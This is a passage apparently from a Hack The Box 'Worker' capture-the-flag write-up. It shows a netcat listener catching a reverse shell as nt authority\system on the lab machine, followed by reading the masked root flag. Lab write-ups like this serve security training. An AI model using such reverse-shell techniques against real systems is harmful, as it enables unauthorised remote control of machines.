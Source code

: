 ![Exploit executed](/assets/htb/Worker/root/devops-exploit-executed.png)

The script successfully executes and we should get a shell.

```powershell
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.203.
Ncat: Connection from 10.10.10.203:49948.
Windows PowerShell running as user WORKER$ on WORKER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS W:\agents\agent11\_work\12\s> whoami
nt authority\system
PS W:\agents\agent11\_work\12\s> type C:\Users\Administrator\Desktop\root.txt
51929***************************
```

We get a shell as `nt authority\system` and can read root.txt.